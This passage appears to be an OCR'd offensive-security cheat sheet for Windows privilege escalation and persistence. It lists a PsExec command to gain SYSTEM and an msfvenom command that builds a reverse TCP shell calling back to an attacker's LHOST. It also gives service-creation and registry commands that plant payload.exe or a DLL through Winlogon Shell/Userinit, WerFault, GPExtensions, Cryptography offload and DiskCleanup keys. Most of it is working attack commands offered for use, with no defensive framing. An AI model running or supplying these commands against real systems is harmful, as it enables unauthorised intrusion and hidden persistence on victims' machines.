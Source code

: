 		- Admin -> System

			- > .\PsExec64.exe -accepteula -i -s C:\

		- Msfvenom

			- # msfvenom -p windows/x64/shell_reverse_tcp LHOST=$IP LPORT=$PORT-f exe -o reverse.exe

	- WindowsEnum

		- powershell -nologo -executionpolicy bypass -file WindowsEnum.ps1
		- URL

			- https://github.com/absolomb/WindowsEnum

	- Windows Exploit Suggester

		- wes.py --update
		- URL

			- https://github.com/bitsadmin/wesng

- Persistence

	- SV Service Creation

		- sc create newservice type= own type= interact binPath=  “C:\windows\system32\cmd.exe /c payload.exe" & sc start newservice 

	- Winlogon Helper DLL Shell

		- reg add "HKLM\Software\Microsoft\Windows  NT\CurrentVersion\Winlogon" /v Shell /d "explorer.exe, payload.exe"  /f 

	- Winlogon Helper DLL UserInit

		- reg add "HKLM\Software\Microsoft\Windows  NT\CurrentVersion\Winlogon" /v Userinit /d "Userinit.exe,  payload.exe" /f 

	- Winlogon GP Extensions

		- HKLM\SOFTWARE\Microsoft\Windows  NT\CurrentVersion\Winlogon\GPExtensions\{GUID}\DllName=<DLL> 

	- OMA Client Provisioning dmcfghost.exe

		- HKLM\SOFTWARE\Microsoft\PushRouter\Test\TestDllPath2=<DLL> 

	- Werfault.exe Reflective Debugger 

		- HKLM\Software\Microsoft\Windows\Windows Error  Reporting\Hangs\ReflectDebugger=<path\to\exe> 
		- werfault.exe -pr 1 

	- OffloadModExpo Function

		- HKLM\Software\Microsoft\Cryptography\Offload\ExpoOffload=<DLL>

	- DiskCleanup CleanuppMgr

		- HKLM\Software\Microsoft\Windows\CurrentVersion\Explorer\MyComputer\cleanuppath = %SystemRoot%\System32\payload.exe

	- Application Shim DLL Injection
	- Application Shim Redirect EXE
	- VMWare Tools BAT File Persistence
